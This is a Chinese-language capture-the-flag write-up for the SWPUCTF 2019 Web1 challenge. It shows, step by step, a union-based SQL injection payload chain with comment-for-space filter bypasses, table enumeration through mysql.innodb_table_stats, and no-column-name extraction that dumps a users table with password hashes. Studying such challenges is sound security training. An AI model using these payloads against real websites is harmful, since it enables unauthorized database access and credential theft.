

# SWPUCTF 2019

## Web

### Web1

注册账号并登陆后能够 申请发布广告 ，在广告申请中的广告名输入

```
-1' order by 1#
```

回显 `标题含有敏感词汇` ，通过测试可以发现 `or` 、`and` 、 `空格` 、 `join`

先判断列数，通过逐步判断直到

```
-1'/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

可以得到回显如下图

<figure><figcaption></figcaption></figure>

可以得出字段有 22 列，并且 2 和 3 是可以进行注入攻击的。

通过构造 Payload 如下

```
-1'/**/union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

可以得出数据库名为 `Web1` ，但是由于 `or` 被过滤了，所以也需要绕过 `information_schema` 库。

通过构造 Payload 如下

```
-1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/
sys.schema_table_statistics_with_buffer/**/where/**/table_schema=Web1),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

得到回显 `Table 'sys.schema_table_statistics_with_buffer' doesn't exist` ，那就得换另一种方法力，通过构造 Payload 如下

```
-1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

得到所有表名 `ads, users` ，尝试无列名注入。

> https://zhuanlan.zhihu.com/p/98206699

通过构造 Payload 如下

```
-1'/**/union/**/select/**/1,(select/**/group_concat(a.1)/**/from/**/(select/**/1/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'

-1'/**/union/**/select/**/1,(select/**/group_concat(a.1)/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

得到回显 `The used SELECT statements have a different number of columns` ，直到如下 Payload

```
-1'/**/union/**/select/**/1,(select/**/group_concat(a.1)/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

得到回显 `1,1,2,3` ，那就继续查看第二列，构造 Payload 如下

```
-1'/**/union/**/select/**/1,(select/**/group_concat(a.2)/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

得到回显 `2,flag,admin,1` ，看到 flag 了，那就继续康康第三列，构造 Payload 如下

```
-1'/**/union/**/select/**/1,(select/**/group_concat(a.3)/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

得到回显如下

```
3,flag{81dda3bd-2651-4353-8d11-53c5c3842ec5},53e217ad4c721eb9565cf25a5ec3b66e,c4ca4238a0b923820dcc509a6f75849b
```

就得到 flag 了。
